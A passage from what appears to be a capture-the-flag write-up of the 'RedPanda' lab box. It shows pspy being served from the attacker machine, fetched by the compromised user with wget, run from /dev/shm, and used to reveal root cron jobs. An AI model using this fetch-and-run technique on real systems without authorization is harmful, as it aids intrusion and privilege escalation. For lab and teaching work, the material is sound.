 ```sh
┌──(root㉿kali)-[~/htb/redpanda]
└─# wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64             
<SNIP>
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: ‘pspy64’
pspy64   100%  [<============================>]   2.94M  2.93MB/s    in 1.0s    
2022-07-16 16:26:26 (2.93 MB/s) - ‘pspy64’ saved [3078592/3078592]
```

Start a web server so we can pull it over to the box:

```sh
┌──(root㉿kali)-[~/htb/redpanda]
└─# python3 -m http.server 80                  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Switch to the box, pull it over and run:

```sh
woodenk@redpanda:/dev/shm$ wget http://10.10.14.207/pspy64
--2022-07-16 15:26:55--  http://10.10.14.207/pspy64
Connecting to 10.10.14.207:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: ‘pspy64’
pspy64  100%[================>]   2.94M  2.35MB/s    in 1.2s    
2022-07-16 15:26:56 (2.35 MB/s) - ‘pspy64’ saved [3078592/3078592]

woodenk@redpanda:/dev/shm$ chmod +x pspy64 
woodenk@redpanda:/dev/shm$ ./pspy64 
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855
     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     
Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2022/07/16 15:27:13 CMD: UID=0    PID=99     | 
2022/07/16 15:27:13 CMD: UID=0    PID=98     | 
2022/07/16 15:27:13 CMD: UID=0    PID=97     | 
<SNIP>
2022/07/16 15:30:01 CMD: UID=1000 PID=17379  | /bin/bash /opt/cleanup.sh 
2022/07/16 15:30:01 CMD: UID=1000 PID=17388  | /usr/bin/find /home/woodenk -name *.xml -exec rm -rf {} ; 
2022/07/16 15:30:01 CMD: UID=1000 PID=17391  | /usr/bin/find /tmp -name *.jpg -exec rm -rf {} ; 
2022/07/16 15:30:01 CMD: UID=1000 PID=17394  | /usr/bin/find /home/woodenk -name *.jpg -exec rm -rf {} ; 
<SNIP>
2022/07/16 15:32:01 CMD: UID=0    PID=17410  | java -jar /opt/credit-score/LogParser/final/target/final-1.0-jar-with-dependencies.jar 
<SNIP>
2022/07/16 15:34:01 CMD: UID=0    PID=17469  | java -jar /opt/credit-score/LogParser/final/target/final-1.0-jar-with-dependencies.jar 
<SNIP>
```